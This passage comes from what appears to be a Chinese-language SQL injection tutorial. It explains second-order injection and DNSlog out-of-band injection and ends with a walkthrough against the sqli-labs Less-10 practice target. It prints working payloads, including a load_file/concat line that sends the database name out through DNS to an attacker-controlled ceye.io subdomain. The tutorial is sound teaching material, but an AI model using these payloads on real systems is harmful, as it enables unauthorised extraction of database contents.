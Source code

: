 ##### 5）、 二次注入

- **二次注入的原理**

  二次注入一般无法通过扫描工具、手工注入或黑盒测试去进行，一般是用于白盒测试，原因是漏洞本身产生的原理。二次注入是指已存储（数据库、文件）的用户输入被读取后再次进入到 SQL 语句中导致的注入。二次注入比普通sql注入利用更加困难，利用门槛更高。普通注入数据直接进入到 SQL 查询中，而二次注入则是输入数据经处理后存储，取出后，再次进入到 SQL 查询。
  二次注入可分为两步：
  	1、插入恶意数据
  进行数据库插入数据时，对其中的特殊字符进行了转义处理，在写入数据库的时候又保留了原来的数据。
  	2、引用恶意数据
  开发者默认存入数据库的数据都是安全的，在进行查询时，直接从数据库中取出恶意数据，没有进行进一步的检验处理。

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/23f824ed5025312e190bd94b37374443.png)

**6）、 DNSlog带外注入**
**● 什么是 DNSlog 注入**
DNSlog 注入，也叫DNS带外查询，它是属于带外通信的一种(Out of Band,简称OOB)。通常的注入基本都是在同一个信道上面的，比如正常的get注入，先在url上插入payload做HTTP请求，然后得到HTTP返回包，没有涉及其他信道。而所谓的带外通信，至少涉及两个信道，它利用DNS解析渠道，将数据带出。
对于SQL盲注，我们可以通过布尔或者时间盲注获取内容，但是整个过程效率低，需要发送很多的请求进行判断，容易触发安全设备的防护，Dnslog注入可以减少发送的请求，直接回显数据实现注入。使用DnsLog盲注仅限于Windos环境。

**● Dnslog注入原理**
如图，攻击者首先构造注入语句`load_file(concat('\\\\',database(),'.test.com\\abc'))`，在数据库中database()函数被执行，由`concat()`函数将执行结果与`.test.com\\abc`拼接，构成一个新的域名，而mysql中的`select load_file()`可以发起请求，那么这一条带有数据库查询结果的域名就被提交到DNS服务器进行解析。
DNS在解析的时候会留下日志，攻击者就是通过读取多级域名的解析日志，来获取数据库信息。
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/459dbcb0ca3dbc35e5d5aa1ab2ee0ed0.png)

**● 如何获取DNS查询记录日志**
可以使用开放的Dnslog平台，如：`http://www.dnslog.cn`、`http://ceye.io`等，在上`http://ceye.io`我们可以获取到有关ceye.io的DNS查询信息。实际上在域名解析的过程中，是由顶级域名向下逐级解析的，我们构造的攻击语句也是如此，当它发现域名中存在ceye.io时，它会将这条域名信息转到相应的NS服务器上，而通过http://ceye.io我们就可以查询到这条DNS解析记录。

**● 使用场景和条件**
1、`dnslog注入只能用于windows平台`，因为`load_file`这个函数的主要目的还是读取本地的文件，所以我们在拼接的时候需要在前面加上两个`//`，这两个斜杠的目的是为了使用`load_file`可以查询的unc路径。但是Linux服务器没有unc路径，也就无法使用dnslog注入。
2、sql的布尔型盲注、时间注入的效率普遍很低且当注入的线程太大容易被waf拦截，并且像一些命令执行，xss以及sql注入攻击有时无法看到回显结果，这时就可以考虑DNSlog注入攻击
3、`load_file()`函数可以使用，也就是说需要数据库配置文件`my.ini`中的`secure_file_priv=`

**● 靶场演示**
这里我就使用[http://ceye.io](http://ceye.io/), 它是一个免费的记录dnslog的平台，注册后到Profile页面会给你一个二级域名：`xxx.ceye.io`

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/db255b19550a6b2bdd65c3d75649f334.png)

以sqlilabs靶场的less-10为例，是sql盲注，注入后不会有回显,使用DNSlog来解决!

```
# 使用Payload来判断闭合方式，为双引号闭合
http://localhost:8888/sqli-labs/Less-10/index.php?id=1" and sleep(2)--+

```

构造Payload，报数据库名，然后在自己的ceye.io平台上查看DNSquery,发现解析记录，可以看到数据库名security

```
# Payload2，其中，concat可以拼接字符，load_file()用于读取文件，'\\\\'有两个\用于转义，转义后代表\\
http://localhost:8888/sqli-labs/Less-10/index.php?id=1" and load_file(concat('\\\\',database(),'.xxx.ceye.io\\abc'))--+

```
